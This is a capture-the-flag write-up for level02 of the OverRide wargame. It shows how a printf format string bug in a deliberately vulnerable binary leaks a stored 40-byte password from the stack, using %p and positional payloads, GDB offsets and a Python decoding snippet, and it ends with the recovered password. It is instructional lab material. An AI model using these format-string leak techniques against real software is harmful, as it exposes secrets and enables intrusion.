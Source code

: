 Level02 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```

Level02 rights:
```Shell
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
```

The program asks for a username and password:
```Shell
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: name
--[ Password: pass
*****************************************
name does not have access!
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows three things:
- the program opens the password file and stores it in a buffer
- `printf()` is used to display the username, but it is vulnerable to format string attack
- the comparison between the password and our input is performed over 40 bytes, so we can deduce that this is the length of the password.
Since it is stored on the stack, we will exploit `printf()` with the `%p` specifier to display it.

First, let's use GDB to take a look at the three memory allocations:
```Shell
(gdb) disas main
[...]
   0x000000000040082c <+24>:    lea    -0x70(%rbp),%rdx           // user_pass[112]
[...]
   0x0000000000400849 <+53>:    lea    -0xa0(%rbp),%rdx           // password[48]
[...]
   0x0000000000400869 <+85>:    lea    -0x110(%rbp),%rdx          // user_name[112]
[...]
 ```
There is an offset of 48 bytes between `password` and `user_name`, so we know that our password will start 48 bytes before `user_name`, and that only the 40 first bytes will contain the actual password. 

Next, we need to print the stack and find out where our buffer is. This also allows us to peek at values stored higher on the stack:
```Shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: coucou
*****************************************
AAAAAAAA 0x7fffffffe500 (nil) 0x63 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x756f63756f63 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 0x4141414141414141 0x2520702520702520 0x2070252070252070 does not have access!
```
`user_name` starts at the 28th index, `0x4141414141414141`. The 27th index contains the last 8 bytes of the pass buffer, so we can skip that and get the 5 previous arguments to display the entire password (we do 40 / 8 because addresses are 8 bytes long).

```Shell
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password: 
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

Good, we have the entire password, but we need to:
- convert each value from hexadecimal to characters
- reverse them from little endian to big endian
- concatenate each strings to form the final password.

Using a python script is very efficient:
```Python
>>> hex_values = [
...     "756e505234376848",
...     "45414a3561733951",
...     "377a7143574e6758",
...     "354a35686e475873",
...     "48336750664b394d"
... ]
>>> 
>>> result = ''.join(
...     bytes.fromhex(h)[::-1].decode('ascii', errors='ignore') 
...     for h in hex_values
... )
>>> 
>>> print(result)
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```